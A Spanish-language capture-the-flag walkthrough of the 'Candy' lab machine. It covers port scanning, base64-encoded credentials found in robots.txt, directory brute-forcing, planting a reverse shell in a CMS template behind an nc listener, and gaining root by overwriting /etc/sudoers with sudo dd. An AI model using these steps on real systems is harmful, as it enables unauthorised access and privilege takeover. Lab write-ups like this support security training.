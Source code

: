 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Candy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (793).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Cassiopeia.

<figure><img src="../../.gitbook/assets/image (795).png" alt=""><figcaption></figcaption></figure>

Como nos pide unas credenciales vamos a revisar el archivo `robots.txt` por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>

Vemos unas credenciales pero la contraseña parece ser que está codificada en **base64**.

```bash
echo "c2FubHVpczEyMzQ1" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (797).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

Nos encontramos un directorio llamado `/administrator` y entramos en él y nos pide unas credenciales que hemos encontrado anteriormente.

<figure><img src="../../.gitbook/assets/image (799).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (800).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos a **System** en concreto **Sites Templates** y editamos el archivo `error.php` para hacer una [**Reverse Shell**](https://www.revshells.com/). Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (801).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

```bash
find / -user luisillo 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de ese archivo.

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

<figure><img src="../../.gitbook/assets/image (803).png" alt=""><figcaption></figcaption></figure>

Parecen unas credenciales por lo que intentamos loguearnos.

<figure><img src="../../.gitbook/assets/image (804).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos SUDO con dd por lo que revisamos esta [página](https://gtfobins.github.io/gtfobins/dd/).

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>
